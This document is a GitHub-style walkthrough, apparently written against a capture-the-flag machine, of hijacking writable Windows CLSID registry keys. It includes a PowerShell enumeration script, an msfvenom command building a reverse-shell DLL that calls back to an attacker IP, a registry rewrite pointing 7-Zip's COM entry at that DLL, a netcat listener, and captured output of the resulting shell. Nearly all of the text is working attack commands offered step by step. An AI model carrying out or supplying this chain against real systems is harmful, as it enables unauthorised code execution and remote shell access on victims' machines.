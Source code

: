 # windows-dll-hijack-clsid
Powershell script to find writable CLSIDs and then DLL Hijacking it

### Steps:
1) Let's first create a powershell script to find vulnerable CLSID keys, we'll call it as `find_writable_clsid.ps1`: 
```powershell
# Let's obtain all the actual user's groups first by their name, not SID:
$myIdentity = [System.Security.Principal.WindowsIdentity]::GetCurrent()
$myGroups = $myIdentity.Groups | ForEach-Object {
    try {
        $_.Translate([System.Security.Principal.NTAccount]).Value
    } catch {
        $_.Value
    }
}
$myGroups += $myIdentity.Name  # Agrega el usuario directamente

# Let's iterate all CLSID keys:
$base = "HKLM:\Software\Classes\CLSID"
$clsids = Get-ChildItem -Path $base -ErrorAction SilentlyContinue

foreach ($clsid in $clsids) {
    $inprocPath = Join-Path $clsid.PSPath "InprocServer32"
    
    if (Test-Path $inprocPath) {
        try {
            $acl = Get-Acl $inprocPath
            foreach ($access in $acl.Access) {
                $identity = $access.IdentityReference.Value
                $rights = $access.RegistryRights

                # Does the actual user or group have WRITE PERMISSIONS (W or RW)?:
                if ($myGroups -contains $identity -and $rights -match "SetValue|WriteKey|FullControl") {
                    Write-Host "[PWN] Writable CLSID found!"
                    Write-Host "      Key: $inprocPath"
                    Write-Host "      Who: $identity"
                    Write-Host "      Rights: $rights`n"
                }
            }
        } catch {
            continue
        }
    }
}
```

2) We execute it and we find one vulnerable CLSID key (in this case the actual user belongs to `RUSTYKEY\Support` group, so we have RW rights, we have FullControl over it to write it):
```powershell
PS C:\users\public> .\find_writable_clsid.ps1

[PWN] Writable CLSID found!
      Key: Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32
      Who: RUSTYKEY\Support
      Rights: FullControl
```

3) Once you find a vulnerable CLSID key, it's time to check where it comes from, in this case it says this below -> `(default)      : C:\Program Files\7-Zip\7-zip.dll`:
```powershell
PS C:\Users\Public> Get-ItemProperty -Path "HKLM:\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32"


(default)      : C:\Program Files\7-Zip\7-zip.dll
ThreadingModel : Apartment
PSPath         : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\Software\Classes\CLSID\{23170F69-40C1-278A-1000
                 -000100020000}\InprocServer32
PSParentPath   : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\Software\Classes\CLSID\{23170F69-40C1-278A-1000
                 -000100020000}
PSChildName    : InprocServer32
PSDrive        : HKLM
PSProvider     : Microsoft.PowerShell.Core\Registry
```

4) Now let's create our malicious DLL as `hijack.dll` in our attack machine (then send it to the target machine with the technique of your choice):
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.10 LPORT=4444 -f dll -o hijack.dll
```   
   
5) Now let's replace the default value to our malicious DLL (this time we are using this route to upload the file `C:\Users\Public`, but it may be different):
```powershell
PS C:\users\public> Set-ItemProperty -Path "HKLM:\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" -Name "(default)" -Value "C:\Users\Public\hijack.dll"

# This won't show any output!!!
```

6)  Let's have our listener on in our attacking machine:
```bash
rlwrap nc -nlvp 4444
```

7) We can execute the malicious DLL with it: 
```powershell
PS C:\users\public> start-process explorer.exe
```

 You may also execute it in this case with the 7-zip file inside it's folder as we know this has the vulnerable CLSID key:
 ```powershell
 PS C:\program files\7-zip> .\7z.exe`
 ```
 
 8) We receive the shell in our attacking machine:
```bash
rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.16.10] from (UNKNOWN) [10.129.100.159] 49980
Microsoft Windows [Version 10.0.17763.7434]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows>powershell
powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows> whoami
whoami
rustykey\mm.turner
PS C:\Windows> 
```


##### EXTRA: Here you can find a video to another DLL Hijacking technique using procmon.exe https://www.youtube.com/watch?v=XvxeUxOvKb0
